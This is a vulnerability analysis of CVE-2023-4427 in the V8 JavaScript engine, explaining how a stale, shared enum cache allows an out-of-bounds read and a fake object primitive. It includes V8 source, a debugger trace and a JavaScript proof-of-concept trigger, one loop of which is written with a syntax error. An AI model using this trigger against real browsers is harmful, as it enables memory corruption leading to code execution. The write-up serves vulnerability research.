 # CVE-2023-4427 

## Description

Out of bounds access in enum cache leads to fake object primitive.

## Analysis

When running code like this:

```javascript
obj1 = {}
obj2 = {}
// [1]
obj2.a = 1
```

v8 will create a new map for `obj2` and add a new transition pointer
```c
[#0] 0x7ffff6933834 → v8::internal::MapUpdater::ConstructNewMap()()
[#1] 0x7ffff6931c3b → v8::internal::MapUpdater::ReconfigureToDataField(v8::internal::InternalIndex, v8::internal::PropertyAttributes, v8::internal::PropertyConstness, v8::internal::Representation, v8::internal::Handle<v8::internal::FieldType>)()
[#2] 0x7ffff694428b → v8::internal::(anonymous namespace)::UpdateDescriptorForValue(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Map>, v8::internal::InternalIndex, v8::internal::PropertyConstness, v8::internal::Handle<v8::internal::Object>)()
[#3] 0x7ffff69440c1 → v8::internal::Map::PrepareForDataProperty(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Map>, v8::internal::InternalIndex, v8::internal::PropertyConstness, v8::internal::Handle<v8::internal::Object>)()
[#4] 0x7ffff69244bc → v8::internal::LookupIterator::PrepareForDataProperty(v8::internal::Handle<v8::internal::Object>)()
[#5] 0x7ffff69b2fcf → v8::internal::Object::SetDataProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>)()
[#6] 0x7ffff69b189c → v8::internal::Object::SetPropertyInternal(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::Maybe<v8::internal::ShouldThrow>, v8::internal::StoreOrigin, bool*)()
[#7] 0x7ffff69b1548 → v8::internal::Object::SetProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin, v8::Maybe<v8::internal::ShouldThrow>)()
[#8] 0x7ffff64c5fc5 → v8::internal::StoreIC::Store(v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Name>, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin)()
[#9] 0x7ffff64d19ee → v8::internal::__RT_impl_Runtime_StoreIC_Miss(v8::internal::Arguments<(v8::internal::ArgumentsType)0>, v8::internal::Isolate*)()
```

This will also update the descriptor for all affected maps on the transition chain
```cpp
// Installs |new_descriptors| over the current instance_descriptors to ensure
// proper sharing of descriptor arrays.
void Map::ReplaceDescriptors(Isolate* isolate,
                             Tagged<DescriptorArray> new_descriptors) {
  PtrComprCageBase cage_base(isolate);
  // Don't overwrite the empty descriptor array or initial map's descriptors.
  if (NumberOfOwnDescriptors() == 0 ||
      IsUndefined(GetBackPointer(cage_base), isolate)) {
    return;
  }

  Tagged<DescriptorArray> to_replace = instance_descriptors(cage_base);
  // Replace descriptors by new_descriptors in all maps that share it. The old
  // descriptors will not be trimmed in the mark-compactor, we need to mark
  // all its elements.
  Tagged<Map> current = *this;
#ifndef V8_DISABLE_WRITE_BARRIERS
  WriteBarrier::ForDescriptorArray(to_replace,
                                   to_replace->number_of_descriptors());
#endif
  while (current->instance_descriptors(cage_base) == to_replace) {
    Tagged<Map> next;
    if (!current->TryGetBackPointer(cage_base, &next)) {
      break;  // Stop overwriting at initial map.
    }
    current->SetEnumLength(kInvalidEnumCacheSentinel);
    current->UpdateDescriptors(isolate, new_descriptors,
                               current->NumberOfOwnDescriptors());
    current = next;
  }
  set_owns_descriptors(false);
}
```

However, this process will not create a new enum cache, so the enum cache of the descriptor will remind uninitialized. Considering code like

```javascript
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 16705;
object2.b = 3;
const object3 = {};
object3.a = 4;
object3.b = 5;
object3.c = 6;

for (let key in object2) { } // Trigger the enum cache creation [1]

function trigger(callback) {
    for (let key in object2) {
        callback(object2[key]);
    }
}

for (let i = 0; i < 0x50000) {
    trigger(_ => _);
    trigger(_ => _);
    trigger(_ => _);
}

trigger((value) => {
    object3.a = 1.1;             // Change the type of object3.a, update the map of object3 [2]
    for (let key in object1) { } // Trigger the enum cache creation [3]
});
```

In [1] the enum cache is created, and the map of `object2` is updated. In [2] the map of `object3` is updated. And the enum cache of the descriptor is uninitialized. But the length of the enumerable values of object2 has already been fetched before enter the loop body which is `2`. In [3] the enum cache is created again with only one key. This enum cache will be shared between all maps since they hold the same descriptor. Thus when iterating over `object2` with for-in loop again there will be an out of bounds access in the enum cache.

```
gef➤  call (void)_v8_internal_Print_Object(0xdd30015c735)
0xdd30015c735: [EnumCache] in OldSpace
 - map: 0x0dd3000001f1 <Map[12](ENUM_CACHE_TYPE)>
 - keys: 0x0dd30015c71d <FixedArray[1]>
 - indices: 0x0dd30015c729 <FixedArray[1]>
```

